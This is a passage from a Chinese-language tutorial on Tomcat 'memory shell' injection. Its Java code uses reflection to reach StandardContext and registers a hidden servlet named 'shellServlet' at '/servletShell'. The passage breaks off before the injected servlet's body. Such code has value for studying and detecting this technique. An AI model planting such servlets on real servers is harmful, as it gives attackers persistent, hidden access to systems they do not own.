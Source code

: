 所以想要添加servlet的话那么就需要向context中加入包装servlet的wapper和对应的mapping映射即可.
#### 实现思路
##### wapper
添加wapper的思路很简单,与初始化流程类似,创建一个wapper,设置相关属性为要注入的servlet即可,然后调用`standardContext.addChild(wrapper)`即可.
##### ServletMapping
同样的调用`standardContext.addServletMappingDecoded()`方法添加即可.
#### 实现代码
```java
package org.example.Servlets;

import org.apache.catalina.Wrapper;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

public class ShellServlet extends HttpServlet {

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        ServletContext servletContext = req.getServletContext();
        StandardContext standardContext = null;
        //如果已有则避免重复添加
        if (servletContext.getServletRegistration("shellServlet") != null) {
            resp.getWriter().println("injected");
            return;
        }
        while (standardContext ==null) {
            try {
                Field f = servletContext.getClass().getDeclaredField("context");
                f.setAccessible(true);
                Object ob = f.get(servletContext);
                if (ob instanceof ServletContext) {
                    servletContext = (ServletContext) ob;
                } else if (ob instanceof StandardContext) {
                    standardContext = (StandardContext) ob;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                throw new RuntimeException(e);
            }
        }
        Servlet httpServlet = getServlet();
        //创建wrapper添加到standardContext
        Wrapper wrapper = standardContext.createWrapper();
        wrapper.setName("shellServlet");
        wrapper.setLoadOnStartup(1);
        wrapper.setServlet(httpServlet);
        wrapper.setServletClass(httpServlet.getClass().getName());
        standardContext.addChild(wrapper);
        //添加URL映射
        standardContext.addServletMappingDecoded("/servletShell","shellServlet");
        resp.getWriter().println("inject done");
        }

public Servlet getServlet(){
        return  new Servlet() {
            @Override
            public void init(ServletConfig config) throws ServletException {
```